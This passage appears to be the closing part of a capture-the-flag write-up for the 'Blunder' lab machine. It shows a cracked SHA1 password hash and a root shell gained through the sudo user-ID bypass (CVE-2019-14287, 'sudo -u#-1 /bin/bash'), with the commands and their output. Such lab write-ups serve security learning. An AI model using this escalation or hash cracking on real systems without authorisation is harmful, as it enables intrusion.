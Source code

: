 The hash can be easily reverted using online tools like [crackstation](https://crackstation.net), and it turns out to be a **sha1** hash of **_Password120_** .

Now we are able to switch to **hugo**!


## Privilege Escalation

Privilege escalation can be reached through a rapid google research.

Now that we are *hugo* we can check if he can run some **sudo** commands:

```bash
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

We notice that _hugo_ can't run `/bin/bash` as **root**. However, a rapid google research reveals that for **sudo 1.8.28 or less** exists a public exploit ([47502](https://www.exploit-db.com/exploits/47502)) (CVE-2019-14287) that allow to perform privilege escalation executing commands as **user #-1**.

> ...
> Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv

So ...

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo#
```

**we are root!**


## Trophy
```
Persistence is very important. You should not give up unless you are forced to give up.<br>
- Elon Musk
```

<br>
{% include share.html %}
